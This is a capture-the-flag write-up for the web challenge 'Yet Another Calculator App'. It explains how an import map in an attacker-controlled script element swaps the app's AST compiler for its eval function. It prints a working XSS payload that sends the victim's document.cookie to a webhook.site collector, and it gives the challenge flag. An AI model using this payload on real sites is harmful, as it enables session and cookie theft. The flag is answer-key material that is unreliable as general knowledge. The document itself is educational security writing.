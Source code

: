 # Yet Another Calculator App

Category: Web

Solves: 20

Points: 200

---

## Challenge Description

>There's nothing more exciting than corporate-SaaS products! If your business is in need of enhanced computational capabilities, make sure to check out Yet Another Calculator App.

## Write-up

There are many filters to prevent us from doing XSS.

In calc.js
```js
try {
    let ast;
    if (astProgram.type === "application/x-yaca-code") {
        const tokens = lex(program.code);
        ast = parse(tokens);
    } else {
        ast = JSON.parse(program.code);
    }

    const jsProgram = astToJs(ast);
    evalCode(jsProgram);
}
```

We can control `astProgram.type`, which is the type attribute for the script element.

What we can do is that we can give our code in JSON, and it will be parsed by `JSON.parse()`. Next, we change `astToJs` to `evalCode`, and we can execute our own code.

The way we make `astToJs` to `evalCode` is by using [Import maps](https://github.com/WICG/import-maps).

Here is how I did that

```html
<script id="program" language="json" type="importmap">
  {"imports":{"/js/ast-to-js.mjs":"/js/eval-code.mjs"},"name":"give me the flag pls~~","code":"{\"code\": \"new Image().src=\\\"https://webhook.site/xxx/?leak=\\\" + encodeURIComponent(document.cookie)\", \"variables\": []}"}
</script>
```

The type is set to `importmap`, and there is a `imports` key inside. `/js/ast-to-js.mjs` will be mapped to `/js/eval-code.mjs`. So the code `import astToJs from "/js/ast-to-js.mjs";` in calc.js will be the same as `import astToJs from "/js/eval-code.mjs";`, and `astToJs` will be `evalCode`.

I put the Javascript code in `code` to leak the cookie, and give an empty array for `variables`.

After we execute the solving script `solve.py`, we get the flag.

The flag is `pctf{someone_should_document_importmaps_in_mdn_probably}`.